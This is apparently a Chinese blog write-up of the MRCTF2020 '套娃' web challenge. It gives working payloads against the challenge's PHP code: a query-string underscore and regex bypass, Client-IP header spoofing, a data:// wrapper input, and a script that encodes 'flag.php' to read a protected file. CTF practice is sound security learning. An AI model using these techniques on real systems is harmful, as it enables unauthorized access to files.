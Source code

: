 ```yaml
---
layout: mypost
title: "[MRCTF2020]套娃"
categories: [ctf_wp]
---
```


1.这道题相对来说就很基础了，首先登上去网页都是空白的

![](image-20230922211632330-1024x478.png)

然后 f12 查看源代码

```
$query = $_SERVER['QUERY_STRING'];

 if( substr_count($query, '_') !== 0 || substr_count($query, '%5f') != 0 ){
    die('Y0u are So cutE!');
}
 if($_GET['b_u_p_t'] !== '23333' && preg_match('/^23333$/', $_GET['b_u_p_t'])){
    echo "you are going to the next ~";
}
```

这就是一个很简单的绕过哈，首先绕过一下这个下划线，这个空格和.都可以绕过，然后就是一个绕过正则匹配表达式，这个现在看就很简单哈，最基础的，不懂的话可以康康我博客里面的--CTF 中那些奇奇怪怪的正则表达式这篇文章，由浅入深讲解了正则表达式，下面就直接给个 Payload 吧

```
?b.u.p.t=23333%0a
```

2.然后访问给出了信息

![](image-20230922212936456.png)

接着访问它查看源码就会看到下面这一串加密的字符，这个在 CTF 里面还算是比较常见的，就是一个名叫 JsFuck 的加密方式

![](image-20230922213344773-1024x512.png)

把这个放到网站上解密之后的结果就是会弹出一个弹框，里面写着 POST Merak，然后用 POST 访问加个参数 Merak=1，就会在页面中展出网站的一个 php 源码

```
<?php
error_reporting(0);
include 'takeip.php';
ini_set('open_basedir','.');
include 'flag.php';

if(isset($_POST['Merak'])){
    highlight_file(__FILE__);
    die();
}


function change($v){
    $v = base64_decode($v);
    $re = '';
    for($i=0;$i<strlen($v);$i++){
        $re .= chr ( ord ($v[$i]) + $i*2 );
    }
    return $re;
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

3.审计一下，一开始条件的话就两个点哈，第一就是 ip 必须是 127.0.0.1，第二就是满足 2333 这个参数里面的值等于 todat is a happy day

```
1.首先说第一点，这个一开始我是直接将X-Forwarded-For这个参数改成127.0.0.1，结果不太行，然后上网查了几个改ip的方法，最终确定了要用这个client-ip: 127.0.0.1
2.第二点这个有坑啊，一开始脑抽了，直接写的$2333=todat is a happy day,然后才想到这个file_get_contents（）函数是把一个文件转换成字符串，既然没文件，那肯定就是用伪协议了，一看这不是data就是input，这里用的data啊，写下这个Payload：&2333=data://text/plain,todat+is+a+happy+day
```

4.就剩下最后一点了，这点也很简单，咱们最终目的是把 flag.php 传到 file_get_contents（）里面，但是在这之前会用到一个 change（）函数，而这个函数的目的就是先把传进去的参数解密，然后放到一个字典里面，遍历所有的字符，把他们的 ASCII 值加+上自己索引的二倍，然后转换成字符串作为函数的返回值，那我们要想传一个 flag.php,只要相反的做一遍这个事情就可以了，下面写个 POC

```
<body>

<?php
function rechange($v){

    $re = '';
    for($i=0;$i<strlen($v);$i++){
        $re .= chr ( ord ($v[$i]) - $i*2 );
    }
    $m = base64_encode($re);
    return $m;
}
$s = 'flag.php';
$a = rechange($s);
echo $a;
?>
<body>
```

然后输出的结果就是 ZmpdYSZmXGI=

![](image-20230922215147913-1024x495.png)

5.最后把这些条件叠加一下就得到 flag 啦！

![](image.png)

Finish!!!
